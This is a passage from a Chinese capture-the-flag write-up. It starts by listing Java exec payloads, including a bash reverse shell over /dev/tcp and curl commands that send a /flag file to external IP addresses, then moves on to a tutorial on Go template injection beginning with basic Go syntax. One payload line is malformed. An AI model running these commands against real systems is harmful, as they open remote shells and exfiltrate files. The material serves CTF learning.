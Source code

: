 其他可行 payload

```bash
exec(newString[]{'bash'-c','sh -i>& /dev/tcp/ip/端口 0>&1'})
```

```bash
exec(new String[]{'curl','81.70.16.8:8888','-d','@/flag'})
exec(new String[]{'curl','http://47.113.202.32:23233','-T','/flag'})
```

参考：

[https://xz.aliyun.com/t/12568](https://xz.aliyun.com/t/12568)  
[http://www.syrr.cn/news/7874.html](http://www.syrr.cn/news/7874.html)

- - -

## go\_session

#### **一、知识前置**

**简单介绍：**

其他像 Python、PHP 环境下的模板注入一样，Go 语言下的模板注入也是因为未使用 Go 中渲染模板的预期方式来利用，用户传入的数据直接传递到了能够被模板执行的位置，导致了一系列的安全问题。

##### （一）go 语言基础

首先结合菜鸟教程先来学习一下 go 语言的基本语法，简单熟悉一下 go 的语言：

```bash
package main
import "fmt"
func main(){//需要注意的是 { 不能单独放在一行，所以以下代码在运行时会产生错误：
  fmt.Println("Hello,World!")
}
```

> -   第一行代码 package main 定义了包名。你必须在源文件中非注释的第一行指明这个文件属于哪个包，如：package main。package main 表示一个可独立执行的程序，每个 Go 应用程序都包含一个名为 main 的包。
>     
> -   下一行 import "fmt" 告诉 Go 编译器这个程序需要使用 fmt 包（的函数，或其他元素），fmt 包实现了格式化 IO（输入/输出）的函数。
>     
> -   下一行 func main() 是程序开始执行的函数。main 函数是每一个可执行程序所必须包含的，一般来说都是在启动后第一个执行的函数（如果有 init() 函数则会先执行该函数）。
> -   下一行 fmt.Println(...) 可以将字符串输出到控制台，并在最后自动增加换行字符 \\n。使用 fmt.Print("hello, world\\n") 可以得到相同的结果。
> -   Print 和 Println 这两个函数也支持使用变量，如：fmt.Println(arr)。如果没有特别指定，它们会以默认的打印格式将变量 arr 输出到控制台。

当标识符（包括常量、变量、类型、函数名、结构字段等等）以一个大写字母开头，如：Group1，那么使用这种形式的标识符的对象就可以被外部包的代码所使用（客户端程序需要先导入这个包），这被称为导出（像面向对象语言中的 public）；标识符如果以小写字母开头，则对包外是不可见的，但是他们在整个包的内部是可见并且可用的（像面向对象语言中的 protected）。

**Go 标记：**

Go 程序可以由多个标记组成，可以是关键字，标识符，常量，字符串，符号。如以下 GO 语句由 6 个标记组成：

**格式化字符串**

Go 语言中使用 **fmt.Sprintf** 或 **fmt.Printf** 格式化字符串并赋值给新串：

-   **Sprintf** 根据**格式化参数生成格式化的字符串**并返回该字符串。
-   **Printf** 根据**格式化参数生成格式化的字符串**并写入标准输出。
    